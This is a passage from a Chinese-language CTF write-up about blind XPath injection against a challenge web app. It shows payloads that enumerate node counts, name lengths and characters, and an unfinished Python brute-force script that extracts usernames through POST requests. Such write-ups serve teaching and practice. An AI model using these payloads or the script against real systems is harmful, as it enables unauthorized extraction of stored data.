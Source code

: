 于是尝试盲注, 但是 payload 跟 Tr0y 师傅里用的不太一样

如果后面用 or 拼接的话, 页面一直会返回 true (user1), 这里我改成了 and

根节点个数

```
' or count(/)=1 and '1'='1
```

根节点长度

```
' or string-length(name(/*[1]))=4 and '1'='1
```

根节点名称

```
' or substring(name(/*[1]), 1, 1)='r' and '1'='1
```

这样一层一层往下猜, 再往下的格式类似 `count(/root)`和 `name(/root/*[1])`

最后猜出来的路径是 /root/user/username

之后再往下猜的时候发现 `count(/root/user/username)` 的结果为 2

```
' or count(/root/user/username)=2 and '1'='1
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171836946.png)

猜长度的时候发现不太对劲, 子节点的 length 为 0

```
' or string-length(name(/root/user/username/*[1]))=0 and '1'='1
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171837476.png)

忽然意识到下面的可能就是数据了, 于是换成 substring

获取节点内容用 text()

```
' or string-length(/root/user/username[1]/text())=5 and '1'='1
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171840635.png)

5 个字符刚好对应 user1

然后刚刚 count 的时候结果为 2, 猜测可能是有两条数据

最终脚本如下

```python
import requests

url = 'http://eci-2zeaab5gnvv8swr765bs.cloudeci1.ichunqiu.com:8888/hello'

dicts = r'{abcdefghijklmnopqrstuvwxyz-0123456789}'

results = ''

for n in range(1,100):
    for i in dicts:
        xpath = "' or substring(/root/user/username[2]/text()," + str(n) + ", 1)='" + i + "' and '1'='1"
        res = requests.post(url,data={
            'xpath': xpath
            })
        if 'available' not in res.text:
```